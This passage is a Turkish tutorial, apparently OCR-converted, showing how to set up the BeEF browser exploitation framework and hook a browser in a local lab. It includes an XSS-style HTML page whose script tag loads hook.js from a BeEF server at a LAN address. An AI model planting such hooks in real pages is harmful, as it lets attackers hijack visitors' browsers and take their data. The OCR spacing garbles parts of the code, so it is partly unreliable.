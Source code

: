 Burada çalıştırdıktan sonra görmüş olduğunuz üzere 2 adet adres ![](Aspose.Words.9054e8c8-1991-4add-bc62-a515ae63a671.015.png)vermektedir.

[ 13: 25: 13]     |    Hook  URL:  ht t p: / / 127. 0. 0. 1: 300 ![](Aspose.Words.9054e8c8-1991-4add-bc62-a515ae63a671.016.png)[ 13: 25: 13]     | \_   UI  URL:    ht t p: / / 127. 0. 0. 1: 300

Çalıştırdıktan sonra bizden username ve password isteyecektir, güncel beef kullanıyorsanız default olarak verilen username ve password değerlerini değiştirmeniz gerekmektedir. Yeni username ve password değerleriniz ile artık bu şekilde giriş yapabilirsiniz.

![](Aspose.Words.9054e8c8-1991-4add-bc62-a515ae63a671.017.png)

beef login page

Giriş yaptıktan sonra bizleri artık bu şekilde bir panel karşılamaktadır.

![](Aspose.Words.9054e8c8-1991-4add-bc62-a515ae63a671.018.jpeg)

beef panel

Artık burada bir kurban cihaz seçip ilerlememiz gerekiyor. Burada da kendi bilgisayarımızda bir HTML sayfası oluşturarak yukarıdaki hook.js dosyasını çalıştırabileceğimiz bir yapı kuracağız. 

Öncelikle bir HTML dosyası oluşturalım:![](Aspose.Words.9054e8c8-1991-4add-bc62-a515ae63a671.019.png)

t ouch  xs s . ht ml![](Aspose.Words.9054e8c8-1991-4add-bc62-a515ae63a671.020.png)

Daha sonra oluşturduğumuz bu XSS sayfasına yukarıdaki hook.js’in çalışabileceği ![ref1]bir script verelim.

<h1>HACKED  BY  ANYONE</ h1>![](Aspose.Words.9054e8c8-1991-4add-bc62-a515ae63a671.022.png)

<s cr i pt  s r c=  "ht t p: / / 192. 168. 1. 107: 3000/ hook. j s "

![](Aspose.Words.9054e8c8-1991-4add-bc62-a515ae63a671.023.png)

Oluşan bu HTML dosyasını artık tarayıcımızda açtığımızda BEEF ![](Aspose.Words.9054e8c8-1991-4add-bc62-a515ae63a671.024.png)Panelimizde ilgili sonuçları görebiliriz. 

![](Aspose.Words.9054e8c8-1991-4add-bc62-a515ae63a671.025.png)

XSS za yeti olan sayfa

Gördüğünüz üzere sayfamızı açtıktan sonra BEEF panelinde de elde ![](Aspose.Words.9054e8c8-1991-4add-bc62-a515ae63a671.026.png)ettiğimiz bilgileri görebiliriz. 


[ref1]: Aspose.Words.9054e8c8-1991-4add-bc62-a515ae63a671.021.png
[ref2]: Aspose.Words.9054e8c8-1991-4add-bc62-a515ae63a671.052.png